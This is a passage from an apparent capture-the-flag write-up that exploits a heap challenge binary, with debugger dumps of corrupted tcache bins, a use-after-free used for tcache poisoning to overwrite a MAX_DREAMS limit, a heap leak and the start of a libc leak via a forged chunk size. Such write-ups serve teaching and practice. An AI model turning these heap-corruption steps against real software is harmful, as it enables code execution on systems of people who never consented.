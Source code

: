 ```string
────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────
Tcachebins[idx=1, size=0x30] count=2  ←  Chunk(addr=0xab2310, size=0x30, flags=PREV_INUSE)  ←  [Corrupted chunk at 0xa3231]
─────────────────────────────── Fastbins for arena at 0x7f92fe1d7b80 ───────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```

By using the psychiatrist function we can leak the heap base address. This address will be usefull for later.

### Libc leak

To call one_gadget, system or other libc function we need its base address (since ASLR might be on in the server). My idea was to allocate 1200 (0x4b0) bytes, over tcache's maximum chunk size, and then free it. That means that the chunk will end up into the unsorted bin, which will have main arena pointers. However, we can only allocate 40 bytes per chunk and we can only allocate 5 chunks, which corresponds to 200 bytes. So the first step is to overwrite the MAX_DREAMS to allow me to allocate as many chunks as needed. So using the UAF, I overwrote the forward pointer in the tcache to 0x404028-32 (a litle bit before MAX_DREAMS to avoid the program from crashing). It is worth mentioning that the tcache looks exactly the same as shown above.

```python
visit_psychiatrist(1,p64(MAX_DREAMS))
sleep(2)
sleep(3,dream=b'\xff\xff')
```

```string
────────────────────────────────────── Tcachebins for thread 1 ──────────────────────────────────────
Tcachebins[idx=1, size=0x30] count=2  ←  Chunk(addr=0x19fc310, size=0x30, flags=PREV_INUSE)  ←  Chunk(addr=0x404008, size=0x0, flags=! PREV_INUSE)
─────────────────────────────── Fastbins for arena at 0x7f41fd6ebb80 ───────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```

This is how the tcache looks after being corrupted to give me arbitrary read/write. Then by allocating 2 chunks I will have a pointer to the address I want. The python code shows both the tcache poisonning and the overwrite MAX_DREAMS to 0xffff.  
Now, being able to allocate as many chunks as I wanted I allocated the 1200 bytes necessary. Then using the heap leak and tcache poison, I overwrote the size of a chunk to be 0x4f1 (note that it nedded to be 0x4f1 to set the PREVIOUS_INUSE flag).

